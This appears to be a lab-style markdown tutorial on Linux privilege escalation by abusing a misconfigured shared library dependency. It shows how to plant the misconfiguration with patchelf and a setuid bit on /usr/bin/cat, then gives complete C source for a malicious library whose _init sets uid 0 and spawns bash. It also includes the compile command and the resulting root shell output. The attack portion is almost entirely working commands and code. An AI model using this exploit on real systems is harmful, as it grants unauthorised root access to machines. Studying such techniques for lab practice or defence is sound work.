 # Exploiting Shared Library Misconfigurations

## Misconfiguration

### Add Shared Library
```bash
patchelf --add-needed /tmp/libcat.so /usr/bin/cat
chmod +s /usr/bin/cat
```

## Exploiting

### Checking Linked Libraries
```bash
debian@debian:~$ ldd $(which cat)
    linux-vdso.so.1 (0x00007ffd72b77000)
    /tmp/libcat.so => not found
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f9ded410000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f9ded605000)
```

### Verifying Dependencies
```bash
debian@debian:~$ readelf -d $(which cat)

    0x0000000000000001 (NEEDED)             Shared library: [/tmp/libcat.so]
    0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
```

### Creating Exploit Library

```c
debian@debian:/tmp$ vim exploit.c

#include <stdlib.h>
#include <unistd.h>

void _init() {
    setuid(0);
    setgid(0);
    system("/bin/bash -i");
}
```

### Compiling the Exploit
```bash
debian@debian:/tmp$ gcc -shared -fPIC -nostartfiles -o /tmp/libcat.so exploit.c
```

### Gaining Root Access
```bash
debian@debian:/tmp$ cat test.txt 
root@debian:/tmp# id
    uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth),1000(debian)
```

## Remove Shared Library
```bash
patchelf --remove-needed /tmp/libcat.so /usr/bin/cat
```

## Find Shared Library Location

```bash
$ ldd $(which cat)
    /tmp/libcat.so => not found
```

```bash
$ readelf -d $(which cat)
    0x0000000000000001 (NEEDED)             Shared library: [/tmp/libcat.so]
    0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
```

If the above commands do not reveal the shared library location, the location might be hidden. In such cases, configuration files may provide hints.

### Checking Configuration Files for Library Path

```bash
$ ls -lha /etc/ld.so.conf.d/
-rw-r--r--  1 root root   44 Apr 10  2024 library.txt
```

```bash
$ cat /etc/ld.so.conf.d/library.txt
/tmp
```

This indicates that the shared library should be placed in the `/tmp` directory.
